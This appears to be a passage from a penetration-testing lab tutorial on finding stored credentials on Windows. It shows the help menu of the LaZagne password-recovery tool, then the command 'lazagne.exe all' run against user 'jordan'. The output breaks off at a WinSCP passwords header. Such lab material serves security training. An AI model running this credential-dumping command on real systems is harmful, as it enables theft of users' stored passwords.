 ## Email

## More Fun with Credentials

#### Viewing LaZagne Help Menu

``` powershell-session
PS C:\htb> .\lazagne.exe -h

usage: lazagne.exe [-h] [-version]
                   {chats,mails,all,git,svn,windows,wifi,maven,sysadmin,browsers,games,multimedia,memory,databases,php}
                   ...
				   
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

positional arguments:
  {chats,mails,all,git,svn,windows,wifi,maven,sysadmin,browsers,games,multimedia,memory,databases,php}
                        Choose a main command
    chats               Run chats module
    mails               Run mails module
    all                 Run all modules
    git                 Run git module
    svn                 Run svn module
    windows             Run windows module
    wifi                Run wifi module
    maven               Run maven module
    sysadmin            Run sysadmin module
    browsers            Run browsers module
    games               Run games module
    multimedia          Run multimedia module
    memory              Run memory module
    databases           Run databases module
    php                 Run php module

optional arguments:
  -h, --help            show this help message and exit
  -version              laZagne version
```

#### Running All LaZagne Modules

``` powershell-session
PS C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------
```